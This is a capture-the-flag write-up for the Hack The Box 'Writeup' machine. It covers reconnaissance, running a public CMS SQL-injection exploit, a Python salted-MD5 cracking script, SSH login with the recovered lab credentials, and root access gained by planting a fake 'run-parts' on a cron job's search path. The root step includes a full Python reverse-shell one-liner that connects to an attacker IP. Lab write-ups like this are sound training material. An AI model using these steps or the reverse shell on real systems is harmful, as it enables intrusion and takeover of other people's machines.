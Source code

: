 # Writeup

<h1 align="center">
  <br>
  <a href="https://www.hackthebox.eu/home/machines/profile/192"><img src="images/img.png" alt="Writeup"></a>
  <br>
</h1>

<h4 align="center"> Author: jkr</h4>

***

__Machine IP__: 10.10.10.138

__DATE__ : 9/06/2019

__START TIME__: 2:17 PM


***

## NMAP

![](images/nmap.png)

We can see that `robots.txt` is available so let's see what we can find in it.

![](images/robots.png)

`robots.txt` gave us the `/writeup/` URL and visiting there we get the directory with writeups to old machines.

***

## HTTP

Let's run `gobuster` and see if we can find anything else but `gobuster` didn't worked so I tried `dirsearch` that also didn't worked. I was confused why they weren't working. Then after visiting the website page I realized why.

![](images/nodir.png)

So I decided to crawl the website with burp's spider.

Just intercept the requests

![](images/intercept.png)

and then send it to spider. In the `site-map` you'll find all the newly discovered content.

![](images/spider.png)

As we can see that other than `robots.txt` there's a `/writeup/` which we already found, meaning there's nothing else. This could mean we need to focus on the `/writeups/` page.

![](images/writeup.png)

This is what the page looked like and it had few writeups for old retired machines.

After spending some time looking around I noticed one thing. There's `CMSSESSID` in those `/writeup/` links.

![](images/cms.png)

This mean they are using `CMS` in the back so I decided to search for `CMS` exploit and found this [exploit](https://www.exploit-db.com/exploits/46635)

***

## Pwn User
I ran this exploit

```bash
$ python2 exploit.py -u http://10.10.10.138/writeup
```

![](images/hash.png)

```
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```

Then I separated the `crack password` function and changed it a bit to crack the password.

```python
import hashlib

PASSWORD = "62def4866937f08cc13bab43bb14e6f7"
WORDLIST = "rockyou.lst"
SALT = "5a599ef579066807"


def crack_password():
    output = ""
    with open(WORDLIST) as f:
        for line in f.readlines():
            line = line.replace("\n", "")
            if hashlib.md5(str(SALT) + line).hexdigest() == PASSWORD:
                output += "\n[+] Password cracked: " + line
                break
    return output

if __name__ == "__main__":
    print(crack_password())
```

and it cracked the password.

![](images/cracked.png)

So now we have the credentials `jkr: raykayjay9`

I was able to login into `jkr` account via SSH.

![](images/login.png)

Then I got the user

![](images/user.png)

***

## pwn root

I downloaded the enumeration script and ran it but couldn't find anything interesting. I tried looking around into different things like `sudo -l` or any cronjobs but I couldn't find anything.

After reading some comments on the forum discussion I found out that I need to keep an eye on the process running. So I downloaded the [pspy](https://github.com/DominicBreuker/pspy) and ran it.

Most of the time I was getting the SSH login.

![](images/sshd.png)

But then after sometime I got something different

![](images/process.png)

![](images/p2.png)

![](images/p3.png)

![](images/p4.png)

![](images/run-parts.png)

Now we can see that there's something running in background called `run-parts`.
I found out that it's a cronjob associated with all users.

![](images/jobs.png)

Since this binary doesn't have the full path maybe we can use this for our privilege escalation.

Here's the interesting part. A cronjob is triggering

```bash
sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
```

and we can see that in this command the `run-parts` is without the complete path. And right before that there's a PATH variable defined.

So basically while running the `run-parts` system will search it in the given PATHS. We can take advantage of this by simply making a executable file with a reverse shell in it. If it work it will trigger a Root reverse shell.

I checked and there wasn't any `nc` on the system so I used the python's reverse shell.

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.107",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
We have write permission in `/usr/local/sbin` and `/usr/local/bin` so we can make file in any of those.

* `cd /usr/local/sbin`
* `nano run-parts`
* paste the reverse shell

  ![](images/exploit.png)

* `chmod +x run-parts`
* setup your listener on your system and wait you'll get the root shell.

![](images/root.png)

***

I really enjoyed this machine even though the SQLi part on free network was really a pain but I am happy that I was able to complete this.

Thanks to [@jkr](https://twitter.com/ATeamJKR) for making this machine.

***

Thanks for reading, Feedback is always appreciated

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more "Writeups".
